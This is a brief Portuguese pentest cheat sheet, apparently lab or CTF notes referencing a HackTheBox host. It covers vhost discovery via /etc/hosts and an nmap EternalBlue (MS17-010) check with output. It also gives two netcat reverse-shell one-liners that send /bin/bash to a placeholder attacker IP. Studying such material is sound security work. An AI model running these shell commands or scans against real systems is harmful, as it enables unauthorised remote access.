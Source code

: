 

# web

## vhost / subdomain / subdomínio
O arquivo `/etc/hosts` pode conter informações acerca dos vhosts
```
127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

## nmap

**path to scripts**
```
/usr/share/nmap/scripts

```

**checking if the host are vulnerable to eternalblue (CVE-2017-0143)**
```
nmap -script=smb-vuln-ms17-010.nse -sV -Pn 172.16.1.145 -p 445                   
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.30 seconds
```
## reverse shell
```
# exemplo 1
nc ATACKER_IP OPENNED_PORT -c /bin/bash

# exemplo 2
nc ATACKER_IP OPENNED_PORT -e /bin/bash
```
- `-e` Essa opção foi **removida** em versões mais recentes do `netcat`, como a do OpenBSD (`netcat-traditional` não tem `-e`)
- `-c` Essa opção só existe em algumas versões do `netcat` (como a GNU Netcat), mas não funciona no OpenBSD `netcat`